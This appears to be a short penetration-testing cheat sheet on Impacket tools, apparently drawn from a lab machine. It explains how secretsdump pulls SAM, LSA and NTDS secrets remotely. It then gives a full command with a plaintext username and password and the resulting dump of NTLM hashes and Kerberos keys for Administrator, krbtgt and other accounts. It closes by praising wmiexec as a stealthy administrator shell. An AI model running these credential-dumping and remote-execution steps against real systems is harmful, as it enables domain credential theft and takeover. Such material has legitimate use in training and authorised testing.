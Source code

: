### secretsdump

Performs various techniques to dump secrets from the remote machine without executing any agent there. For SAM and LSA Secrets \(including cached creds\) we try to read as much as we can from the registry and then we save the hives in the target system \(%SYSTEMROOT%\Temp directory\) and read the rest of the data from there. For DIT files, we dump NTLM hashes, Plaintext credentials \(if available\) and Kerberos keys using the DL\_DRSGetNCChanges\(\) method. It can also dump NTDS.dit via vssadmin executed with the smbexec/wmiexec approach. The script initiates the services required for its working if they are not available \(e.g. Remote Registry, even if it is disabled\). After the work is done, things are restored to the original state.

```text
root@kali# secretsdump.py -just-dc mrlky:Football#7@10.10.10.103 
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation             
 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash) 
[*] Using the DRSUAPI method to get NTDS.DIT secrets 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8::: 
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3::: 
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef::: 
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de::: 
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:a571008b8559fc7e6abb364efa15312c::: 
[*] Kerberos keys grabbed                                                    
Administrator:aes256-cts-hmac-sha1-96:e562d64208c7df80b496af280603773ea7d7eeb93ef715392a8258214933275d 
Administrator:aes128-cts-hmac-sha1-96:45b1a7ed336bafe1f1e0c1ab666336b3 
Administrator:des-cbc-md5:ad7afb706715e964                                    
krbtgt:aes256-cts-hmac-sha1-96:0fcb9a54f68453be5dd01fe555cace13e99def7699b85deda866a71a74e9391e 
krbtgt:aes128-cts-hmac-sha1-96:668b69e6bb7f76fa1bcd3a638e93e699 
krbtgt:des-cbc-md5:866db35eb9ec5173 
amanda:aes256-cts-hmac-sha1-96:60ef71f6446370bab3a52634c3708ed8a0af424fdcb045f3f5fbde5ff05221eb 
amanda:aes128-cts-hmac-sha1-96:48d91184cecdc906ca7a07ccbe42e061 
amanda:des-cbc-md5:70ba677a4c1a2adf 
mrlky:aes256-cts-hmac-sha1-96:b42493c2e8ef350d257e68cc93a155643330c6b5e46a931315c2e23984b11155 
mrlky:aes128-cts-hmac-sha1-96:3daab3d6ea94d236b44083309f4f3db0 
mrlky:des-cbc-md5:02f1a4da0432f7f7 
sizzler:aes256-cts-hmac-sha1-96:85b437e31c055786104b514f98fdf2a520569174cbfc7ba2c895b0f05a7ec81d 
sizzler:aes128-cts-hmac-sha1-96:e31015d07e48c21bbd72955641423955 
sizzler:des-cbc-md5:5d51d30e68d092d9 
SIZZLE$:aes256-cts-hmac-sha1-96:037a6a1bb47867be060491ddc54ff4bdf8057e1713dc3e2dd9a88cd5305384f4 
SIZZLE$:aes128-cts-hmac-sha1-96:f7e839c51376067067d425a3baba2693 
SIZZLE$:des-cbc-md5:3210b6852a4a2ae9 
[*] Cleaning up...   
```

### wmiexec

A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.
